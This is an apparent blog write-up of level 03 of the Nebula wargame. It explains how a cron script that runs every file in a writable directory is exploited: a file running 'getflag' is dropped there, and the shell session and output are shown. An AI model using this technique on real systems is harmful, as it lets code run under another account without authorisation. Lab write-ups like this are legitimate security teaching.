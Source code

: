 ```yaml
---
layout: default
title: "Nebula03"
tags: Nebula
description: "Exploiting command injection in the CRON job script"
---
```



## Level 03

> Check the home directory of flag03 and take note of the files there. There is a crontab that is called every couple of minutes. To do this level, log in as the `level03` account with the password `level03`. Files for this level can be found in `/home/flag03`.

## Source code
There is no source code available on the site, but we will work with the script `/home/flag03/writable.sh`

```
level03@nebula:/home/flag03$ cat writable.sh 
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done

```

## Getting the flag

From the task, we know that to get this flag we have to exploit the CRON job.  
By auditing the code of the script we can identify that everything in the `writable.d` directory will be read and executed by `bash`.  
Those challenges are more fun when the CRON job is executed by `root`, but we don't really need it to read the flag: 

```
level03@nebula:/tmp$ cd /home/flag03/writable.d/
level03@nebula:/home/flag03/writable.d$ echo "getflag > /tmp/flag" > flag
level03@nebula:/home/flag03/writable.d$ ls
flag
level03@nebula:/home/flag03/writable.d$ ls
level03@nebula:/home/flag03/writable.d$ cd /tmp
level03@nebula:/tmp$ ls
flag 
level03@nebula:/tmp$ cat flag 
You have successfully executed getflag on a target account
```

So what happened there? We created a file `flag` in the `writable.d` folder. The `writable.sh` was triggered by the CRON job in ~1 minute, and the `bash -x "getflag > /tmp/flag"` was executed, and our valid flag has been copied to the `/tmp/flag`

## Other Nebula levels 
- [level00](https://hackish.space/Nebula-level00)
- [level01](https://hackish.space/Nebula-level01)
- [level02](https://hackish.space/Nebula-level02)
- [level03](https://hackish.space/Nebula-level03)
- [level04](https://hackish.space/Nebula-level04)
- [level05](https://hackish.space/Nebula-level05)
- [level06](https://hackish.space/Nebula-level06)
- [level07](https://hackish.space/Nebula-level07)
- [level08](https://hackish.space/Nebula-level08)
- [level09](https://hackish.space/Nebula-level09)
- [level10](https://hackish.space/Nebula-level10)
- [level11](https://hackish.space/Nebula-level11)
- [level12](https://hackish.space/Nebula-level12)
- [level13](https://hackish.space/Nebula-level13)
- [level14](https://hackish.space/Nebula-level14)
- [level15](https://hackish.space/Nebula-level15)
- [level16](https://hackish.space/Nebula-level16)
- [level17](https://hackish.space/Nebula-level17)
- [level18](https://hackish.space/Nebula-level18)
- [level19](https://hackish.space/Nebula-level19)